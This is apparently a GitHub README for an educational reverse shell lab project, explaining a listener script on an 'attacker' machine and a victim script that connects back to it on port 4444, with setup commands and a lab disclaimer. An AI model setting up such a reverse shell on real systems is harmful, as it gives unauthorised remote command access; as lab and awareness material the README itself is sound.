 # 🐚 Reverse Shell Semulation

![Warning](https://img.shields.io/badge/Security-Awareness-red?style=for-the-badge\&logo=hackaday)
![Python](https://img.shields.io/badge/Python-3.x-blue?style=for-the-badge\&logo=python)
![Linux](https://img.shields.io/badge/Linux-Compatible-yellow?style=for-the-badge\&logo=linux)
![Educational](https://img.shields.io/badge/Use-Educational-green?style=for-the-badge\&logo=bookstack)

---

## ⚠️ Disclaimer

This project is for **educational and awareness purposes only**. It demonstrates how a reverse shell works in a **controlled virtual environment**. Do **NOT** use it on real systems without explicit permission. The author is not responsible for misuse.

---

## 📝 Overview

This repository simulates a basic reverse shell attack:

* **Listener.py** → Runs on the attacker machine and listens for incoming reverse shell connections.
* **Shell.py** → Runs on the victim machine and connects back to the attacker, providing shell access.

The goal is to teach how attackers exploit reverse shells and how defenders can detect unusual outbound connections.

---

## ⚙️ How It Works

1. The **attacker machine** runs `Listener.py` to listen for incoming connections.
2. The **victim machine** runs `Shell.py` which connects back to the attacker’s IP and port.
3. Once connected, the attacker can execute commands on the victim’s system.

---

## 🚀 Setup & Execution

### 1. Clone Repository

```bash
git clone https://github.com/OmarGhayad/reverse-shell-semulation.git
cd reverse-shell-semulation
```

### 2. Run Listener (Attacker Machine)

On the **attacker machine** (Linux recommended), run:

```bash
python3 Listener.py
```

This will start listening on port **4444** by default.

### 3. Configure Victim Script

Edit **Shell.py** and replace the connection placeholders with your lab listener values (only inside the isolated lab):

```python
LISTENER_IP = "YOUR_LAB_IP"   # Attacker/Listener VM IP inside the lab
LISTENER_PORT = 4444
```

Example:

```python
LISTENER_IP = "192.168.1.100"
LISTENER_PORT = 4444
```

### 4. Run Victim Script (Victim Machine)

On the **victim simulation machine**, run:

```bash
python3 Shell.py
```

This will connect back to the attacker, creating a reverse shell.

---

## 📌 Notes

* Use only in a **virtual lab environment**.
* Demonstrates risks of reverse shells and why **outbound traffic monitoring** is critical.
* Helps raise awareness of **network security defenses**.

---

![Awareness](https://img.shields.io/badge/Cybersecurity-Awareness-orange?style=for-the-badge\&logo=shield)
